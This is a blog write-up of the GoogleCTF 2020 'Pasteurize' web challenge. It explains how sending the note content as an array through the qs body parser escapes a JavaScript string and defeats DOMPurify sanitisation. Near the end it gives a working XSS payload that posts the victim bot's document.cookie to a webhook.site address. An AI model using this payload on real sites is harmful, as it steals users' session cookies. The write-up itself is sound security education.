 ```yaml
---
title: "GoogleCTF 2020: Pasteurize"
date: 2020-08-23T17:35:14-06:00
draft: false
comments: false
images:
tags:
    - writeups
    - web
    - xss
---
```


This is the first challenge I worked on. I will soon upload a post on the second one. I completed this challenge with the help of my team mentor!

## Let's Begin!

The challenge lets us load into the DOM whatever we want through this pastebin-esque function.
When you make a note, you have an option to share it with a "TjMike" Entity. Sign of XSS/CSRF attacks?

{{< image src="/images/google2020pastdompur.png" alt="Login" position="center" style="border-radius: 8px;" >}}
_My input, "uwu", is shoved into a javascript string variable called 'note'. Further down we see a_ ``const clean`` _variable that calls DOMpurify to sanitize our input._


Looking into the HTML, whatever content we put into the note is immediately shoved into a javascript string. However, if you try to input quotation marks in there, the DOMpurify clean function escapes it. So, if we can get an unescaped quote in there, we can do whatever we want. Let's focus on the comment.

{{< image src="/images/google2020source.png" alt="Login" position="center" style="border-radius: 8px;" >}}

Going to the ``/source`` endpoint takes us, well, directly to the webpage's app file. 

Of note are the app's use of using the Express BodyParser to operate on 'extended' mode (using the `qs` library instead of the `querystring` library).

{{< image src="/images/Google2020bodyparser.png" alt="Login" position="center" style="border-radius: 8px;" >}}

In the source we also see:

{{< image src="/images/google2020json.png" alt="Login" position="center" style="border-radius: 8px;" >}}

``JSON.stringify(unsafe)`` - if our content (unsafe) is a string, then the function simply adds additional quotation marks onto the string, and the ``slice(1,-1)`` function removes those extra quotations, before feeding it to the DOM to be rendered. What if our input isn't a string - what if it's an array? 

The [``qs``](https://www.npmjs.com/package/qs#parsing-arrays) library allows arrays to be parsed from HTTP requests if theyre stipulated as:

```
{
    array[]=a&array[]=b

    //array = [a,b]
}
```

When we make a note (POST request to ``/note``), intercept the request via burpsuite. Modify your query there. Change ``content=`` to ``content[]=`` (Alternatively, you can CURL your request to not deal with proxy settings).


{{< image src="/images/google2020pastalert.png" alt="Login" position="center" style="border-radius: 8px;" >}}

{{< image src="/images/google2020xss.png" alt="Login" position="center" style="border-radius: 8px;" >}}

If we go to the page, we see that an alert is prompted - aka, we have succesfully escaped the JS string and can write javascript code as normal. That being said, let's go ahead and craft a payload to xss TJMike (I am being lazy and reusing an old payload of mine from before and modifying it).

```
content[]=; document.getElementById('note-content').onLoad = fetch('https://webhook.site/64627794-30a4-466d-b93a-537bdebca744', {method:'POST', body:JSON.stringify({data:document.cookie})});const uwu = 
```

Share our note to TJMike. Wait for our server to grab their cookie. 

{{< image src="/images/googlectf2020pastflag.png" alt="Login" position="center" style="border-radius: 8px;" >}}

Jam
